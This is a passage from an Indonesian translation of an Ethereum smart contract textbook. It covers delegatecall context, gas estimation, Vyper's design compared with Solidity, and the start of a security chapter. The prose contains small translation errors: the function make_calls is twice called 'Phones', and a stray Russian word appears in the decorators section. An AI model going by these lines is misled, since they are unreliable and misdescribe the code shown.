4   event callEvent(address sender, address origin, address from);
5   function calledFunction() public {
6     emit callEvent(msg.sender, tx.origin, address(this));
7   }
8 }
9
10 library calledLibrary {
11  event callEvent(address sender, address origin, address from);
12  function calledFunction() public {
13    emit callEvent(msg.sender, tx.origin, address(this));
14  }
15 }
16
17 contract caller {
18   function make_calls(calledContract _calledContract) public {
19
20    // Memanggil calledContract dan calledLibrary secara langsung
21    _calledContract.calledFunction();
22    calledLibrary.calledFunction();
23
24    // Panggilan tingkat rendah menggunakan objek alamat untuk calledContract
25    require(address(_calledContract).
26      call(bytes4(keccak256("calledFunction()"))));
27    require(address(_calledContract).
28      delegatecall(bytes4(keccak256("calledFunction()"))));
29   }
30 }
```

Seperti yang Anda lihat dalam contoh ini, kontrak utama kami adalah `caller`, yang memanggil pustaka `calledLibrary` dan kontrak `calledContract`. Baik pustaka maupun kontrak yang dipanggil memiliki fungsi `calledFunction` yang identik, yang memancarkan *event* `callEvent`. *Event* `callEvent` mencatat tiga potong data: `msg.sender`, `tx.origin`, dan `this`. Setiap kali `calledFunction` dipanggil, ia mungkin memiliki konteks eksekusi yang berbeda (dengan nilai yang berpotensi berbeda untuk semua variabel konteks), tergantung pada apakah ia dipanggil secara langsung atau melalui `delegatecall`.

Di `caller`, kami pertama-tama memanggil kontrak dan pustaka secara langsung, dengan memanggil `calledFunction` di masing-masing. Kemudian, kami secara eksplisit menggunakan fungsi tingkat rendah `call` dan `delegatecall` untuk memanggil `calledContract.calledFunction`. Dengan cara ini kita bisa melihat bagaimana berbagai mekanisme panggilan berperilaku.

Mari kita jalankan ini di lingkungan pengembangan Truffle dan tangkap *event*-nya, untuk melihat seperti apa:

```bash
truffle(develop)> migrate
Using network 'develop'.
[...]
Saving artifacts...
truffle(develop)> web3.eth.getAccounts().then(a => { EOA = a[0] })
'0x627306090abab3a6e1400e9345bc60c78a8bef57'
truffle(develop)> caller.address
'0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f'
truffle(develop)> calledContract.address
'0x345ca3e014aaf5dca488057592ee47305d9b3e10'
truffle(develop)> calledLibrary.address
'0xf25186b5081ff5ce73482ad761db0eb0d25abfbf'
truffle(develop)> caller.deployed().then( i => { callerDeployed = i })
truffle(develop)> callerDeployed.make_calls(calledContract.address).then(res => { res.logs.forEach( log => { console.log(log.args) })})

{ sender: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f',
  origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  from: '0x345ca3e014aaf5dca488057592ee47305d9b3e10' }

{ sender: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  from: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f' }

{ sender: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f',
  origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  from: '0x345ca3e014aaf5dca488057592ee47305d9b3e10' }

{ sender: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
  from: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f' }
```

Mari kita lihat apa yang terjadi di sini. Kami memanggil fungsi `Phones` dan meneruskan alamat `calledContract`, lalu menangkap empat *event* yang dipancarkan oleh masing-masing panggilan yang berbeda. Mari kita lihat fungsi `Phones` dan telusuri setiap langkahnya.

Panggilan pertama adalah:
`_calledContract.calledFunction();`

Di sini, kami memanggil `calledContract.calledFunction` secara langsung, menggunakan ABI tingkat tinggi untuk `calledFunction`. *Event* yang dipancarkan adalah:

```
sender: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f',
origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
from: '0x345ca3e014aaf5dca488057592ee47305d9b3e10'
```

Seperti yang Anda lihat, `msg.sender` adalah alamat dari kontrak `caller`. `tx.origin` adalah alamat akun kami, yang mengirim transaksi ke `caller`. *Event* tersebut dipancarkan oleh `calledContract`, seperti yang bisa kita lihat dari argumen terakhir dalam *event*.

Panggilan berikutnya di `Phones` adalah ke pustaka:
`calledLibrary.calledFunction();`

Ini terlihat identik dengan cara kita memanggil kontrak, tetapi berperilaku sangat berbeda. Mari kita lihat *event* kedua yang dipancarkan:

```
sender: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
origin: '0x627306090abab3a6e1400e9345bc60c78a8bef57',
from: '0x8f0483125fcb9aaaefa9209d8e9d7b9c8b9fb90f'
```

Kali ini, `msg.sender` bukanlah alamat dari `caller`. Sebaliknya, itu adalah alamat akun kami, dan sama dengan asal transaksi. Itu karena ketika Anda memanggil pustaka, panggilannya selalu `delegatecall` dan berjalan dalam konteks pemanggil. Jadi, ketika kode `calledLibrary` berjalan, ia mewarisi konteks eksekusi dari `caller`, seolah-olah kodenya berjalan di dalam `caller`. Variabel `this` (ditampilkan sebagai `from` dalam *event* yang dipancarkan) adalah alamat dari `caller`, meskipun diakses dari dalam `calledLibrary`.

Dua panggilan berikutnya, menggunakan `call` dan `delegatecall` tingkat rendah, memverifikasi ekspektasi kita, memancarkan *event* yang mencerminkan apa yang baru saja kita lihat.

#### Pertimbangan Gas

Gas, yang dijelaskan lebih detail di “Gas” di halaman 314, adalah pertimbangan yang sangat penting dalam pemrograman kontrak pintar. Gas adalah sumber daya yang membatasi jumlah maksimum komputasi yang diizinkan Ethereum untuk dikonsumsi oleh sebuah transaksi. Jika batas gas terlampaui selama komputasi, serangkaian peristiwa berikut terjadi:

  * Pengecualian “kehabisan gas” (*out of gas*) dilemparkan.
  * Keadaan kontrak sebelum eksekusi dipulihkan (dikembalikan).
  * Semua ether yang digunakan untuk membayar gas diambil sebagai biaya transaksi; tidak dikembalikan.

Karena gas dibayar oleh pengguna yang memulai transaksi, pengguna tidak dianjurkan untuk memanggil fungsi yang memiliki biaya gas tinggi. Oleh karena itu, demi kepentingan terbaik pemrogram untuk meminimalkan biaya gas dari fungsi-fungsi sebuah kontrak. Untuk tujuan ini, ada praktik-praktik tertentu yang direkomendasikan saat membuat kontrak pintar, untuk meminimalkan biaya gas dari panggilan fungsi.

##### Hindari Larik Berukuran Dinamis

Setiap *loop* melalui larik berukuran dinamis di mana sebuah fungsi melakukan operasi pada setiap elemen atau mencari elemen tertentu memperkenalkan risiko penggunaan terlalu banyak gas. Memang, kontrak dapat kehabisan gas sebelum menemukan hasil yang diinginkan, atau sebelum bertindak pada setiap elemen, sehingga membuang-buang waktu dan ether tanpa memberikan hasil sama sekali.

##### Hindari Panggilan ke Kontrak Lain

Memanggil kontrak lain, terutama ketika biaya gas dari fungsi-fungsi mereka tidak diketahui, memperkenalkan risiko kehabisan gas. Hindari menggunakan pustaka yang tidak diuji dengan baik dan digunakan secara luas. Semakin sedikit pengawasan yang diterima sebuah pustaka dari pemrogram lain, semakin besar risiko menggunakannya.

##### Memperkirakan Biaya Gas

Jika Anda perlu memperkirakan gas yang diperlukan untuk mengeksekusi metode tertentu dari sebuah kontrak dengan mempertimbangkan argumennya, Anda dapat menggunakan prosedur berikut:

```javascript
var contract = web3.eth.contract(abi).at(address);
var gasEstimate = contract.myAweSomeMethod.estimateGas(arg1, arg2, {from: account});
```

`gasEstimate` akan memberi tahu Anda jumlah unit gas yang dibutuhkan untuk eksekusinya. Ini adalah perkiraan karena kelengkapan Turing dari EVM—relatif sepele untuk membuat fungsi yang akan mengambil jumlah gas yang sangat berbeda untuk mengeksekusi panggilan yang berbeda. Bahkan kode produksi dapat mengubah jalur eksekusi dengan cara yang halus, menghasilkan biaya gas yang sangat berbeda dari satu panggilan ke panggilan berikutnya. Namun, sebagian besar fungsi masuk akal dan `estimateGas` akan memberikan perkiraan yang baik sebagian besar waktu.

Untuk mendapatkan harga gas dari jaringan, Anda dapat menggunakan:

```javascript
var gasPrice = web3.eth.getGasPrice();
```

Dan dari sana Anda dapat memperkirakan biaya gas:

```javascript
var gasCostInEther = web3.utils.fromWei((gasEstimate * gasPrice), 'ether');
```

Mari kita terapkan fungsi estimasi gas kita untuk memperkirakan biaya gas dari contoh `Faucet` kita, menggunakan kode dari repositori buku.

Mulai Truffle dalam mode pengembangan dan jalankan file JavaScript di Contoh 7-5, `gas_estimates.js`.

**Contoh 7-5. gas\_estimates.js: Menggunakan fungsi `estimateGas`**

```javascript
var FaucetContract = artifacts.require("./Faucet.sol");

FaucetContract.web3.eth.getGasPrice(function(error, result) {
  var gasPrice = Number(result);
  console.log("Harga Gas adalah " + gasPrice + " wei"); // "20000000000"

  // Dapatkan instansi kontrak
  FaucetContract.deployed().then(function(FaucetContractInstance) {
    // Gunakan kata kunci 'estimateGas' setelah nama fungsi untuk mendapatkan
    // estimasi gas untuk fungsi khusus ini
    FaucetContractInstance.send(web3.utils.toWei("1", "ether"));
    return FaucetContractInstance.withdraw.estimateGas(web3.utils.toWei("0.1", "ether"));
  }).then(function(result) {
    var gas = Number(result);

    console.log("estimasi gas = " + gas + " unit");
    console.log("estimasi biaya gas = " + (gas * gasPrice) + " wei");
    console.log("estimasi biaya gas = " +
      FaucetContract.web3.utils.fromWei((gas * gasPrice).toString(), 'ether') + " ether");
  });
});
```

Berikut tampilannya di konsol pengembangan Truffle:

```bash
$ truffle develop
truffle(develop)> exec gas_estimates.js
Using network 'develop'.
Harga Gas adalah 20000000000 wei
estimasi gas = 31397 unit
estimasi biaya gas = 62794000000000 wei
estimasi biaya gas = 0.000062794 ether
```

Direkomendasikan agar Anda mengevaluasi biaya gas dari fungsi sebagai bagian dari alur kerja pengembangan Anda, untuk menghindari kejutan saat menerapkan kontrak ke *mainnet*.

### Kesimpulan

Dalam bab ini kita mulai bekerja dengan kontrak pintar secara detail dan menjelajahi bahasa pemrograman kontrak Solidity. Kami mengambil contoh kontrak sederhana, `Faucet.sol`, dan secara bertahap memperbaikinya dan membuatnya lebih kompleks, menggunakannya untuk menjelajahi berbagai aspek bahasa Solidity. Di Bab 8 kita akan bekerja dengan Vyper, bahasa pemrograman berorientasi kontrak lainnya. Kami akan membandingkan Vyper dengan Solidity, menunjukkan beberapa perbedaan dalam desain kedua bahasa ini dan memperdalam pemahaman kita tentang pemrograman kontrak pintar.

---

# BAB 8
## Kontrak Pintar (Smart Contracts) dan Vyper

**Vyper** adalah bahasa pemrograman eksperimental berorientasi kontrak untuk Ethereum Virtual Machine yang berupaya memberikan **auditabilitas** yang unggul, dengan mempermudah pengembang untuk menghasilkan kode yang dapat dipahami. Faktanya, salah satu prinsip Vyper adalah membuatnya hampir tidak mungkin bagi pengembang untuk menulis kode yang menyesatkan.

Dalam bab ini kita akan melihat masalah umum pada kontrak pintar, memperkenalkan bahasa pemrograman kontrak Vyper, dan membandingkannya dengan Solidity, serta menunjukkan perbedaannya.

### Kerentanan (Vulnerabilities) dan Vyper

Sebuah studi terbaru menganalisis hampir satu juta kontrak pintar Ethereum yang telah diterapkan dan menemukan bahwa banyak dari kontrak-kontrak ini mengandung kerentanan serius. Selama analisis mereka, para peneliti menguraikan tiga kategori dasar kerentanan jejak (*trace vulnerabilities*):

  * **Kontrak bunuh diri (*Suicidal contracts*)**
    Kontrak pintar yang dapat dimatikan oleh alamat sewenang-wenang.
  * **Kontrak serakah (*Greedy contracts*)**
    Kontrak pintar yang dapat mencapai keadaan di mana mereka tidak dapat melepaskan ether.
  * **Kontrak boros (*Prodigal contracts*)**
    Kontrak pintar yang dapat dibuat untuk melepaskan ether ke alamat sewenang-wenang.

Kerentanan dimasukkan ke dalam kontrak pintar melalui kode. Dapat diperdebatkan dengan kuat bahwa kerentanan ini dan lainnya tidak sengaja diperkenalkan, tetapi bagaimanapun juga, kode kontrak pintar yang tidak diinginkan terbukti mengakibatkan hilangnya dana yang tidak terduga bagi pengguna Ethereum, dan ini tidak ideal. Vyper dirancang untuk mempermudah penulisan kode yang aman, atau sama halnya untuk mempersulit penulisan kode yang menyesatkan atau rentan secara tidak sengaja.

### Perbandingan dengan Solidity

Salah satu cara Vyper mencoba mempersulit penulisan kode yang tidak aman adalah dengan sengaja menghilangkan beberapa fitur Solidity. Penting bagi mereka yang mempertimbangkan untuk mengembangkan kontrak pintar di Vyper untuk memahami fitur apa yang tidak dimiliki Vyper, dan mengapa. Oleh karena itu, di bagian ini, kami akan menjelajahi fitur-fitur tersebut dan memberikan justifikasi mengapa fitur-fitur tersebut dihilangkan.

#### Pengubah (Modifiers)

Seperti yang kita lihat di bab sebelumnya, di Solidity Anda dapat menulis sebuah fungsi menggunakan pengubah (*modifiers*). Misalnya, fungsi berikut, `changeOwner`, akan menjalankan kode dalam pengubah bernama `onlyBy` sebagai bagian dari eksekusinya:

```solidity
function changeOwner(address _newOwner)
  public
  onlyBy(owner)
{
  owner = _newOwner;
}
```

Pengubah ini memberlakukan aturan terkait kepemilikan. Seperti yang Anda lihat, pengubah khusus ini bertindak sebagai mekanisme untuk melakukan pemeriksaan awal atas nama fungsi `changeOwner`:

```solidity
modifier onlyBy(address _account)
{
  require(msg.sender == _account);
  _;
}
```

Tetapi pengubah tidak hanya ada untuk melakukan pemeriksaan, seperti yang ditunjukkan di sini. Faktanya, sebagai pengubah, mereka dapat secara signifikan mengubah lingkungan kontrak pintar, dalam konteks fungsi pemanggil. Sederhananya, pengubah bersifat pervasif.

Mari kita lihat contoh gaya Solidity lainnya:

```solidity
enum Stages {
  SafeStage
  DangerStage,
  FinalStage
}

uint public creationTime = now;
Stages public stage = Stages.SafeStage;

function nextStage() internal {
  stage = Stages(uint(stage) + 1);
}

modifier stageTimeConfirmation() {
  if (stage == Stages.SafeStage && now >= creationTime + 10 days)
    nextStage();
  _;
}

function a()
  public
  stageTimeConfirmation
{
  // Kode lebih lanjut di sini
}
```

Di satu sisi, pengembang harus selalu memeriksa kode lain yang dipanggil oleh kode mereka sendiri. Namun, ada kemungkinan bahwa dalam situasi tertentu (seperti ketika kendala waktu atau kelelahan mengakibatkan kurangnya konsentrasi) seorang pengembang mungkin mengabaikan satu baris kode. Ini bahkan lebih mungkin terjadi jika pengembang harus melompat-lompat di dalam file besar sambil secara mental melacak hierarki panggilan fungsi dan mengingat keadaan variabel kontrak pintar.

Mari kita lihat contoh sebelumnya lebih dalam. Bayangkan seorang pengembang sedang menulis fungsi publik bernama `a`. Pengembang tersebut baru mengenal kontrak ini dan memanfaatkan pengubah yang ditulis oleh orang lain. Sekilas, tampaknya pengubah `stageTimeConfirmation` hanya melakukan beberapa pemeriksaan terkait usia kontrak dalam kaitannya dengan fungsi pemanggil. Apa yang mungkin tidak disadari oleh pengembang adalah bahwa pengubah tersebut juga memanggil fungsi lain, `nextStage`. Dalam skenario demonstrasi sederhana ini, hanya dengan memanggil fungsi publik `a` mengakibatkan variabel `stage` kontrak pintar berpindah dari `SafeStage` ke `DangerStage`.

**Vyper telah menghilangkan pengubah sama sekali.** Rekomendasi dari Vyper adalah sebagai berikut: jika hanya melakukan asersi dengan pengubah, maka cukup gunakan pemeriksaan dan `assert` sebaris (*inline*) sebagai bagian dari fungsi; jika memodifikasi keadaan kontrak pintar dan sebagainya, sekali lagi buat perubahan ini secara eksplisit menjadi bagian dari fungsi. Melakukan ini meningkatkan auditabilitas dan keterbacaan, karena pembaca tidak perlu secara mental (atau manual) "membungkus" kode pengubah di sekitar fungsi untuk melihat apa yang dilakukannya.

#### Pewarisan Kelas (Class Inheritance)

Pewarisan memungkinkan pemrogram untuk memanfaatkan kekuatan kode yang telah ditulis sebelumnya dengan memperoleh fungsionalitas, properti, dan perilaku yang sudah ada dari pustaka perangkat lunak yang ada. Pewarisan sangat kuat dan mendorong penggunaan kembali kode. Solidity mendukung pewarisan ganda serta polimorfisme, tetapi meskipun ini adalah fitur utama dari pemrograman berorientasi objek, **Vyper tidak mendukungnya.** Vyper berpendapat bahwa implementasi pewarisan mengharuskan pembuat kode dan auditor untuk melompat di antara beberapa file untuk memahami apa yang dilakukan program. Vyper juga berpandangan bahwa pewarisan ganda dapat membuat kode terlalu rumit untuk dipahami—pandangan yang secara diam-diam diakui oleh dokumentasi Solidity, yang memberikan contoh bagaimana pewarisan ganda dapat menjadi masalah.

#### Assembly Sebaris (Inline Assembly)

*Inline assembly* memberi pengembang akses tingkat rendah ke Ethereum Virtual Machine, memungkinkan program Solidity untuk melakukan operasi dengan langsung mengakses instruksi EVM. Misalnya, kode *inline assembly* berikut menambahkan 3 ke lokasi memori 0x80:

```
3 0x80 mload add 0x80 mstore
```

Vyper menganggap hilangnya keterbacaan adalah harga yang terlalu tinggi untuk dibayar demi kekuatan ekstra, dan dengan demikian **tidak mendukung *inline assembly*.**

#### Pembebanan Berlebih Fungsi (Function Overloading)

*Function overloading* memungkinkan pengembang untuk menulis beberapa fungsi dengan nama yang sama. Fungsi mana yang digunakan pada kesempatan tertentu tergantung pada jenis argumen yang diberikan. Ambil dua fungsi berikut sebagai contoh:

```solidity
function f(uint _in) public pure returns (uint out) {
  out = 1;
}

function f(uint _in, bytes32 _key) public pure returns (uint out) {
  out = 2;
}
```

Fungsi pertama (bernama `f`) menerima argumen input bertipe `uint`; fungsi kedua (juga bernama `f`) menerima dua argumen, satu bertipe `uint` dan satu bertipe `bytes32`. Memiliki beberapa definisi fungsi dengan nama yang sama yang mengambil argumen yang berbeda dapat membingungkan, jadi **Vyper tidak mendukung *function overloading*.**

#### Typecasting Variabel

Ada dua macam *typecasting*: implisit dan eksplisit.

*Typecasting* implisit sering dilakukan pada saat kompilasi. Misalnya, jika konversi tipe secara semantik benar dan tidak ada informasi yang mungkin hilang, kompiler dapat melakukan konversi implisit, seperti mengubah variabel tipe `uint8` menjadi `uint16`. Versi paling awal Vyper mengizinkan *typecasting* implisit variabel, tetapi versi terbaru tidak.

*Typecast* eksplisit dapat disisipkan di Solidity. Sayangnya, mereka dapat menyebabkan perilaku tak terduga. Misalnya, melakukan *casting* `uint32` ke tipe yang lebih kecil `uint16` hanya menghilangkan bit orde tinggi, seperti yang ditunjukkan di sini:

```solidity
uint32 a = 0x12345678;
uint16 b = uint16(a); // Variabel b sekarang 0x5678
```

**Vyper sebagai gantinya memiliki fungsi `convert` untuk melakukan *cast* eksplisit.** Fungsi `convert` (ditemukan di baris 82 `convert.py`):

```python
def convert(expr, context):
  output_type = expr.args[1].s
  if output_type in conversion_table:
    return conversion_table[output_type](expr, context)
  else:
    raise Exception("Conversion to {} is invalid.".format(output_type))
```

Perhatikan penggunaan `conversion_table` (ditemukan di baris 90 file yang sama), yang terlihat seperti ini:

```python
conversion_table = {
  'int128': to_int128,
  'uint256': to_unint256,
  'decimal': to_decimal,
  'bytes32': to_bytes32,
}
```

Ketika seorang pengembang memanggil `convert`, ia mereferensikan `conversion_table`, yang memastikan bahwa konversi yang sesuai dilakukan. Sebagai contoh, jika seorang pengembang memberikan `int128` ke fungsi `convert`, fungsi `to_int128` di baris 26 dari file yang sama (`convert.py`) akan dieksekusi. Fungsi `to_int128` adalah sebagai berikut:

```python
@signature(('int128', 'uint256', 'bytes32', 'bytes'), 'str_literal')
def to_int128(expr, args, kwargs, context):
  in_node = args[0]
  typ, len = get_type(in_node)
  if typ in ('int128', 'uint256', 'bytes32'):
    if in_node.typ.is_literal \
       and not SizeLimits.MINNUM <= in_node.value <= SizeLimits.MAXNUM:
      raise InvalidLiteralException(
        "Number out of range: {}".format(in_node.value), expr
      )
    return LLLnode.from_list(
      ['clamp', ['mload', MemoryPositions.MINNUM], in_node,
      ['mload', MemoryPositions.MAXNUM]], typ=BaseType('int128'),
      pos=getpos(expr)
    )
  else:
    return byte_array_to_num(in_node, expr, 'int128')
```

Seperti yang Anda lihat, proses konversi memastikan bahwa tidak ada informasi yang bisa hilang; jika bisa, sebuah pengecualian akan dilemparkan. Kode konversi mencegah pemotongan (*truncation*) serta anomali lain yang biasanya diizinkan oleh *typecasting* implisit.

Memilih *typecasting* eksplisit daripada implisit berarti pengembang bertanggung jawab untuk melakukan semua *cast*. Meskipun pendekatan ini menghasilkan kode yang lebih panjang (*verbose*), ini juga meningkatkan keamanan dan auditabilitas kontrak pintar.

#### Prakondisi dan Pascakondisi

Vyper menangani prakondisi, pascakondisi, dan perubahan keadaan secara eksplisit. Meskipun ini menghasilkan kode yang redundan, ini juga memungkinkan keterbacaan dan keamanan maksimal. Saat menulis kontrak pintar di Vyper, seorang pengembang harus mengamati tiga poin berikut:

  * **Kondisi (*Condition*)**
    Bagaimana keadaan/kondisi saat ini dari variabel keadaan Ethereum?
  * **Efek (*Effects*)**
    Efek apa yang akan dimiliki kode kontrak pintar ini pada kondisi variabel keadaan setelah eksekusi? Yaitu, apa yang akan terpengaruh, dan apa yang tidak akan terpengaruh? Apakah efek ini sesuai dengan niat kontrak pintar?
  * **Interaksi (*Interaction*)**
    Setelah dua pertimbangan pertama ditangani secara tuntas, saatnya menjalankan kode. Sebelum penerapan, telusuri kode secara logis dan pertimbangkan semua kemungkinan hasil, konsekuensi, dan skenario permanen dari eksekusi kode, termasuk interaksi dengan kontrak lain.

Idealnya, setiap poin ini harus dipertimbangkan dengan cermat dan kemudian didokumentasikan secara menyeluruh dalam kode. Melakukan hal itu akan meningkatkan desain kode, yang pada akhirnya membuatnya lebih mudah dibaca dan diaudit.

#### Dekorator (Decorators)

Dekorator berikut dapat digunakan di awal setiap fungsi:

  * **`@private`**
    Dekorator `@private` membuat fungsi tidak dapat diakses dari luar kontrak.
  * **`@public`**
    Dekorator `@public` membuat fungsi terlihat dan dapat dieksekusi secara publik. Misalnya, bahkan dompet Ethereum akan menampilkan fungsi semacam itu saat melihat kontrak.
  * **`@constant`**
    Fungsi dengan dekorator `@constant` не diizinkan untuk mengubah variabel keadaan. Faktanya, kompiler akan menolak seluruh program (dengan kesalahan yang sesuai) jika fungsi mencoba mengubah variabel keadaan.
  * **`@payable`**
    Hanya fungsi dengan dekorator `@payable` yang diizinkan untuk mentransfer nilai.

Vyper mengimplementasikan logika dekorator secara eksplisit. Misalnya, proses kompilasi Vyper akan gagal jika sebuah fungsi memiliki dekorator `@payable` dan `@constant`. Ini masuk akal karena fungsi yang mentransfer nilai secara definisi telah memperbarui keadaan, jadi tidak bisa `@constant`. Setiap fungsi Vyper harus dihiasi dengan `@public` atau `@private` (tetapi tidak keduanya\!).

#### Urutan Fungsi dan Variabel

Setiap kontrak pintar Vyper individual hanya terdiri dari satu file Vyper. Dengan kata lain, semua kode kontrak pintar Vyper tertentu, termasuk semua fungsi, variabel, dan sebagainya, ada di satu tempat. **Vyper mengharuskan deklarasi fungsi dan variabel setiap kontrak pintar ditulis secara fisik dalam urutan tertentu.** Solidity sama sekali tidak memiliki persyaratan ini. Mari kita lihat contoh Solidity singkat:

```solidity
pragma solidity ^0.4.0;
contract ordering {
  function topFunction()
    external
    returns (bool)
  {
    initiatizedBelowTopFunction = this.lowerFunction();
    return initiatizedBelowTopFunction;
  }
  bool initiatizedBelowTopFunction;
  bool lowerFunctionVar;
  function lowerFunction()
    external
    returns (bool)
  {
    lowerFunctionVar = true;
    return lowerFunctionVar;
  }
}
```

Dalam contoh ini, fungsi yang disebut `topFunction` memanggil fungsi lain, `lowerFunction`. `topFunction` juga menetapkan nilai ke variabel yang disebut `initiatizedBelowTopFunction`. Seperti yang Anda lihat, Solidity tidak mengharuskan fungsi dan variabel ini dideklarasikan secara fisik sebelum dipanggil oleh kode yang dieksekusi. Ini adalah kode Solidity yang valid yang akan berhasil dikompilasi.

Persyaratan urutan Vyper bukanlah hal baru; faktanya, persyaratan urutan ini selalu ada dalam pemrograman Python. Urutan yang disyaratkan oleh Vyper lugas dan logis, seperti yang diilustrasikan dalam contoh berikutnya:

```vyper
# Deklarasikan variabel bernama theBool
theBool: public(bool)

# Deklarasikan fungsi bernama topFunction
@public
def topFunction() -> bool:
  # Tetapkan nilai ke fungsi yang sudah dideklarasikan bernama theBool
  self.theBool = True
  return self.theBool

# Deklarasikan fungsi bernama lowerFunction
@public
def lowerFunction():
  # Panggil fungsi yang sudah dideklarasikan bernama topFunction
  assert self.topFunction()
```

Ini menunjukkan urutan yang benar dari fungsi dan variabel dalam kontrak pintar Vyper. Perhatikan bagaimana variabel `theBool` dan fungsi `topFunction` dideklarasikan sebelum mereka diberi nilai dan dipanggil. Jika `theBool` dideklarasikan di bawah `topFunction` atau jika `topFunction` dideklarasikan di bawah `lowerFunction`, kontrak ini tidak akan dikompilasi.

#### Kompilasi

Vyper memiliki editor kode dan kompiler daring sendiri, yang memungkinkan Anda menulis dan kemudian mengkompilasi kontrak pintar Anda menjadi *bytecode*, ABI, dan LLL hanya dengan menggunakan browser web Anda. Kompiler daring Vyper memiliki berbagai kontrak pintar yang telah ditulis sebelumnya untuk kenyamanan Anda, termasuk kontrak untuk lelang terbuka sederhana, pembelian jarak jauh yang aman, token ERC20, dan banyak lagi.

> Vyper mengimplementasikan ERC20 sebagai kontrak yang telah dikompilasi sebelumnya, memungkinkan kontrak pintar ini mudah digunakan secara langsung. Kontrak di Vyper harus dideklarasikan sebagai variabel global. Contoh untuk mendeklarasikan variabel ERC20 adalah sebagai berikut:
> `token: address(ERC20)`

Anda juga dapat mengkompilasi kontrak menggunakan baris perintah. Setiap kontrak Vyper disimpan dalam satu file dengan ekstensi `.vy`. Setelah terinstal, Anda dapat mengkompilasi kontrak dengan Vyper dengan menjalankan perintah berikut:

```bash
vyper ~/hello_world.vy
```

Deskripsi ABI yang dapat dibaca manusia (dalam format JSON) kemudian dapat diperoleh dengan menjalankan perintah berikut:

```bash
vyper -f json ~/hello_world.vy
```

#### Melindungi dari Kesalahan Overflow di Tingkat Kompiler

Kesalahan *overflow* dalam perangkat lunak dapat menjadi bencana ketika berhadapan dengan nilai nyata. Misalnya, [satu transaksi](https://www.google.com/search?q=https://etherscan.io/tx/0xad89ff16fd1ebe3a0a7cf4ed282302c06626c1af142577029de0abaf6e5a1b3b) dari pertengahan April 2018 menunjukkan transfer berbahaya lebih dari 57,896,044,618,658,100,000,000,000,000,000,000,000,000,000,000,000,000,000,000 token BEC. Transaksi ini adalah hasil dari masalah *integer overflow* di kontrak token ERC20 BeautyChain (BecToken.sol). Pengembang Solidity memang memiliki akses ke pustaka seperti SafeMath serta alat analisis keamanan kontrak pintar Ethereum seperti Mythril OSS. Namun, pengembang tidak dipaksa untuk menggunakan alat keselamatan. Sederhananya, jika keselamatan tidak ditegakkan oleh bahasa, pengembang dapat menulis kode yang tidak aman yang akan berhasil dikompilasi dan kemudian "berhasil" dieksekusi.

**Vyper memiliki perlindungan *overflow* bawaan**, yang diimplementasikan dalam pendekatan dua cabang. Pertama, Vyper menyediakan padanan SafeMath yang mencakup kasus-kasus pengecualian yang diperlukan untuk aritmetika integer. Kedua, Vyper menggunakan ***clamps*** setiap kali konstanta literal dimuat, nilai diteruskan ke fungsi, atau variabel ditetapkan. *Clamps* diimplementasikan melalui fungsi kustom di kompiler Low-level Lisp-like Language (LLL), dan tidak dapat dinonaktifkan. (Kompiler Vyper menghasilkan LLL daripada *bytecode* EVM; ini menyederhanakan pengembangan Vyper itu sendiri.)

#### Membaca dan Menulis Data

Meskipun mahal untuk menyimpan, membaca, dan memodifikasi data, operasi penyimpanan ini merupakan komponen yang diperlukan dari sebagian besar kontrak pintar. Kontrak pintar dapat menulis data ke dua tempat:

  * **Keadaan global (*Global state*)**
    Variabel keadaan dalam kontrak pintar tertentu disimpan dalam *global state trie* Ethereum; kontrak pintar hanya dapat menyimpan, membaca, dan memodifikasi data yang berkaitan dengan alamat kontrak tertentu itu (yaitu, kontrak pintar tidak dapat membaca atau menulis ke kontrak pintar lain).
  * **Log**
    Sebuah kontrak pintar juga dapat menulis ke data rantai Ethereum melalui *log events*.

Meskipun Vyper pada awalnya menggunakan sintaksis `__log__` untuk mendeklarasikan *event-event* ini, pembaruan telah dibuat yang membuat deklarasi *event*-nya lebih sejalan dengan sintaksis asli Solidity. Misalnya, deklarasi Vyper untuk *event* bernama `MyLog` awalnya adalah `MyLog: __log__({arg1: indexed(bytes[3])})`. Sintaksisnya sekarang menjadi `MyLog: event({arg1: indexed(bytes[3])})`. Penting untuk dicatat bahwa eksekusi *log event* di Vyper dulu, dan masih, sebagai berikut: `log.MyLog("123")`.

Meskipun kontrak pintar dapat menulis ke data rantai Ethereum (melalui *log events*), mereka tidak dapat membaca *log events* on-chain yang telah mereka buat. Meskipun demikian, salah satu keuntungan menulis ke data rantai Ethereum melalui *log events* adalah bahwa log dapat ditemukan dan dibaca, di rantai publik, oleh klien ringan (*light clients*). Misalnya, nilai `logsBloom` di blok yang ditambang dapat menunjukkan ada atau tidaknya *log event*. Setelah keberadaan *log events* telah ditetapkan, data log dapat diperoleh dari resi transaksi tertentu.

### Kesimpulan

Vyper adalah bahasa pemrograman berorientasi kontrak baru yang kuat dan menarik. Desainnya bias terhadap “kebenaran,” dengan mengorbankan beberapa fleksibilitas. Ini mungkin memungkinkan pemrogram untuk menulis kontrak pintar yang lebih baik dan menghindari perangkap tertentu yang menyebabkan kerentanan serius muncul. Selanjutnya, kita akan melihat keamanan kontrak pintar secara lebih detail. Beberapa nuansa desain Vyper mungkin menjadi lebih jelas setelah Anda membaca tentang semua kemungkinan masalah keamanan yang dapat muncul dalam kontrak pintar.

---

# BAB 9
## Keamanan Kontrak Pintar

Keamanan adalah salah satu pertimbangan terpenting saat menulis kontrak pintar. Dalam bidang pemrograman kontrak pintar, kesalahan berbiaya mahal dan mudah dieksploitasi. Dalam bab ini kita akan melihat praktik terbaik keamanan dan pola desain, serta “antipattern keamanan,” yaitu praktik dan pola yang dapat menimbulkan kerentanan dalam kontrak pintar kita.

